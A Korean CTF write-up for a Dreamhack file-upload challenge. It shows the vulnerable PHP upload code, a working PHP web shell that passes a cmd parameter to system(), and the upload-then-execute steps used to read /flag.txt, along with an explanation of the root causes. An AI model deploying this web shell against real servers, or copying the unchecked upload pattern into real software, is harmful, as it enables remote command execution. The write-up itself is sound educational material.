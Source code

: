 ```yaml
---
title: "[CTF] 드림핵 File Upload"
date: 2025-09-19 21:00:00 +0900
categories: [CTF, Web]
tags: [CTF, File Upload]
description: "드림핵 File Upload"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 간단한 파일 업로드 기능을 가진 웹 애플리케이션이다. 업로드된 파일명을 검증하지 않고 웹 루트의 `./uploads/`에 그대로 저장하기 때문에, 실행 가능한 스크립트를 업로드하면 원격 명령 실행(RCE)으로 이어질 수 있다.

- 업로드 페이지: `/upload.php` (multipart/form-data)
- 핵심 취약점: `$_FILES['file']['name']` 값을 검증 없이 사용해 `./uploads/`에 저장함
- FLAG 위치: `/flag.txt` (서버 내부)

---

## 문제에 제공된 원본 소스코드 전체
아래는 문제에서 제공된 원본 소스코드(사용자가 본 그대로)다.

[index.php]
```html
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/>
    <div class="container">
    	<h2>Upload and Share Image !</h2>
    </div> 
</body>
</html>
```

[upload.php]
```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Image Storage</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container">
      <form enctype='multipart/form-data' method="POST">
        <div class="form-group">
          <label for="InputFile">파일 업로드</label>
          <input type="file" id="InputFile" name="file">
        </div>
        <input type="submit" class="btn btn-default" value="Upload">
      </form>
    </div> 
</body>
</html>
```

---

## 내가 실제로 푼 방법
소스코드를 보면 핵심은 파일명(`$file['name']`)을 그대로 사용해 `./uploads/`에 저장한다는 점이다. 따라서 웹서버가 해석하는 PHP 파일을 업로드할 수 있다면, 업로드된 파일을 브라우저로 접근해 명령을 실행할 수 있다.

내가 사용한 웹셸(문제풀이용으로 작성한 코드)은 아래와 같다(원문은 내가 이전에 작성한 코드 그대로 기재한다):

```html
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

위 파일을 `shell.php` 같은 이름으로 업로드했다.

### 내가 취한 입력/절차 요약
1. `/upload.php` 폼을 통해 위 웹셸을 `shell.php`로 업로드
2. 업로드 완료 메시지(예: `Stored in: ./uploads/shell.php`) 확인
3. 브라우저에서 `http://{target}/uploads/shell.php`에 접속
4. 웹 인터페이스에 `cat /flag.txt`를 입력하여 FLAG 획득

---

## 재현 흐름
1. 공격자: `/upload.php`에 multipart/form-data POST로 웹셸 파일 업로드
2. 서버: `move_uploaded_file()`로 `./uploads/shell.php` 저장
3. 공격자: `GET /uploads/shell.php` 접근 → 웹셸 로드
4. 공격자: 웹셸 입력창에 `cat /flag.txt` 실행 → FLAG 출력

---

## 왜 이게 가능했나
- 업로드 파일명 검증 부재: 사용자가 보낸 파일명을 그대로 사용해 파일을 저장했다.
- 확장자/MIME/콘텐츠 검사 없음: `.php` 같은 실행 가능한 스크립트 업로드를 막지 않았다.
- 업로드 디렉토리에서 스크립트 실행 허용: 업로드 파일을 브라우저로 접근할 때 웹서버가 PHP를 해석했다.

이 세 가지가 결합되어 웹셸 업로드 → 실행 → 민감 파일 접근이 가능했다.

---

## 마무리
문제는 매우 전형적인 파일 업로드 취약점 사례였다. 소스코드와 간단한 웹셸 업로드만으로도 `/flag.txt`를 읽어내어 FLAG를 획득할 수 있었다.
